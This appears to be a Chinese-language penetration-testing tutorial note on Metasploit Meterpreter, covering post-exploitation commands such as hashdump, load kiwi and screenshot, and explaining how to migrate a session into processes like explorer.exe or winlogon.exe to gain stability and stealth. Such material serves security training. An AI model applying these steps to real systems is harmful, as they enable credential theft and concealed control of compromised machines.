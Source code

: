 ```bash
ifconfig
shell
execute

screenshot
screenshare

migrate
run  //运行脚本或post模块
load  //load kiwi
hashdump
```

### migrate

`migrate`用于将 **Meterpreter 会话迁移到目标系统上的另一个进程**。

这样做的好处是可以提高会话的稳定性和隐蔽性，因为新进程可能更稳定，且不太可能被用户或其他程序关闭。

以下是使用 `msf migrate` 命令的基本步骤：

首先，你需要有一个 `Meterpreter` 会话。这通常是通过利用目标系统的某个漏洞来实现的。

一旦你获得了 Meterpreter 会话，你可以使用 `ps` 命令来列出目标系统上当前运行的所有进程。

这有助于你选择一个合适的进程来迁移你的会话。

使用 `getpid` 命令来查看当前 Meterpreter 会话的**进程 ID**。

选择一个稳定的进程，比如 `explorer.exe` 或 `winlogon.exe`，然后使用 migrate 命令加上进程 ID 来迁移你的会话。

例如，如果你选择了一个进程 ID 为 1416 的进程，你可以输入 `migrate 1416` 来迁移你的会话。

迁移完成后，你可以使用 `getpid` 命令再次检查，确认你的会话已经迁移到了新的进程。

如果你遇到问题，比如迁移后会话断开，可以尝试使用自动迁移进程命令 `run post/windows/manage/migrate`，这将让系统自动寻找合适的进程进行迁移

```bash
migrate
```

![image-20241028152153078](https://image.201068.xyz/assets/4.kali工具/image-20241028152153078.png)

```bash
ps
getpid
migrate 504
getpid
gituid

run post/windows/manage/migrate

shell
tasklist |grep shell
```

> 需要会话有管理员权限
